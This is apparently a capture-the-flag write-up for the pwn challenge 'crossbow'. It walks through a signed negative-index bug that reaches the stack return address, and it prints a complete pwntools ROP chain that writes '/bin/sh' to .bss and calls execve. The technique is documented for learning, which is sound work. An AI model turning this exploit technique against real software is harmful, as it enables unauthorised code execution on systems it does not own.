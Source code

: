 # crossbow

**Category:** Pwn  
**Challenge Name:** crossbow  
**Tools:** pwntools, Ghidra, objdump, ROPgadget

---

## Goal

Exploit a buffer overflow in a menu-based binary by passing a negative index, and construct a full ROP chain to execute `execve("/bin/sh", NULL, NULL)`.

---

## How I Solved It

### 1. Vulnerability — Signed Index Abuse

The binary prompts:
```
Select target to shoot:
```

Internally, the user input is likely used to access an array (e.g., `targets[index]`). However, no bounds checking is done, and the index is **signed**.

By sending `-2`, we access memory *before* the intended buffer, at a return address on the stack.

```python
pr.sendlineafter(b"Select target to shoot:", b"-2")
```
This creates a primitive to overwrite the return address.

### 2. ROP Chain Strategy

Using known gadgets and a writable memory region, I construct a ROP chain to:
- Write `/bin/sh` to a known location in memory (.bss, here at `0xe000`).
- Set `rdi`, `rsi`, `rdx` appropriately.
- Set `rax` to 59 (`execve` syscall number).
- Trigger `syscall`.

This results in executing:
```python
execve("/bin/sh", NULL, NULL);
```

### 3. ROP Chain Breakdown

All gadgets are rebased relative to the image base (`0x400000`):
```python
rebase = lambda x: pack('Q', x + IMAGE_BASE_0)
```
ROP chain:
```python
rop = b''
rop += rebase(0x1001)      # pop rax; ret;
rop += b'/bin/sh\x00'      # string to write
rop += rebase(0x1d6c)      # pop rdi; ret;
rop += rebase(0xe000)      # writable address
rop += rebase(0x20f5)      # mov [rdi], rax; ret;
rop += rebase(0x1d6c)      # pop rdi; ret;
rop += rebase(0xe000)      # pointer to "/bin/sh"
rop += rebase(0x566b)      # pop rsi; ret;
rop += p(0x0)              # rsi = NULL
rop += rebase(0x1139)      # pop rdx; ret;
rop += p(0x0)              # rdx = NULL
rop += rebase(0x1001)      # pop rax; ret;
rop += p(0x3b)             # rax = 59 (execve)
rop += rebase(0x4b51)      # syscall; ret;
```
This is written after 8 bytes of padding (the offset to `RIP`), using:
```python
payload = flat(b"A" * 8, rop)
```

### 4. Exploitation

We send the crafted payload at the prompt that appears after targeting:
```python
pr.sendlineafter(b"> ", payload)
```
When the vulnerable function returns, execution jumps to our ROP chain. A shell is spawned.

---

You can find the full exploit script in [`main.py`](./main.py).
